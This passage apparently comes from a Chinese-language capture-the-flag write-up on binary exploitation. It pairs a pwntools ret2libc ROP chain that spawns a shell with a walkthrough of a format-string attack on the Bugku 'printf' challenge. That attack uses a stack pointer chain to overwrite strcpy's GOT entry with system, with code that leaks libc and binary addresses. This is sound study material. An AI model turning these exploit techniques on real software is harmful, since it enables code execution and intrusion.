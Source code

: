 ```python
rdi=libc_base+0x02a3e5
ret=libc_base+0x029139

link.recvuntil(b'=')
link.sendline(str(-1).encode())

# gdb.attach(link)
# pause()
payload=b'a'*0xd+p64(rdi)+p64(binsh)+p64(ret)+p64(system)
link.sendline(payload)

link.interactive()
```

要注意 scanf 读取多了一个换行符![](/images/0d65b973f817c0f593db2ca3f9e780de.png)，后面 padding 要加多一个字符

还有栈平衡！

## 非栈上格式化字符串
关键是利用栈上指针序列往栈上写要修改的地址，然后再修改目的地址

具体是在栈上找三个指针，存在 p1->p2->p3 的指针

![](/images/a2d0e3458d0d5a77693b252b02de3b13.png)

具体的利用是分两步走的，第一步首先通过p1写p2的低位字节（改变指向p3的偏移），再利用p2把p3所在的内存改成strcpyGOT表地址

第二步通过p2写p3（此时已经是strcpyGOT表）的低位字节，再利用strcpyGOT把最终指向地址改为system的libc地址

### Bugku printf
程序循环次数放在了 data 段，本来只有一次机会，但是因为 option1 里面输入过大可以覆盖到 data 段下面的循环次数，从而实现多次循环

![](/images/edf298281db7cd0b58a4edc7373ed8cb.png)

![](/images/83ab1396efcd7fc7385a69b54797f8dd.png)

解密部分就不讲了，我直接丢给 ai 看的伪代码

```python
link.recvuntil(b'your choice:')
link.sendline(b'1')
link.recvuntil(b'keys?')
link.send(b'\x00')
link.recvuntil(b'your message to encode:')
link.send(b'a'*0x150)
```

option2 有 printf，是主要利用点，可以利用格式化字符串修改 strcpy 的 got 表从而在 option3 里面利用 strcpy 直接执行`system('/bin/sh')`

然后就是泄露 libc 地址、栈地址、和对应指针链开头的指针（p1 指向的值，也就是 p2）

因为 p2、p3 靠的很近，而且偏移也是固定的，所以可以算出来 p3 的值

```python
payload=encode2('%31$p%14$p%51$p')
link.sendline(payload)
link.recvuntil(b'0x')
libc_base=int(link.recvuntil(b'0x',drop=True),16)-16-libc.symbols['write']
print('libcbase='+hex(libc_base))
pointer2=int(link.recvuntil(b'0x',drop=True),16)
print('pointer2='+hex(pointer2))
binary_base=int(link.recv(12),16)-115-0xDE8
print('binarybase='+hex(binary_base))

strcpy_got=binary_base+elf.got['strcpy']
print('strcpygot='+hex(strcpy_got))
systemaddr=libc_base+libc.symbols['system']
```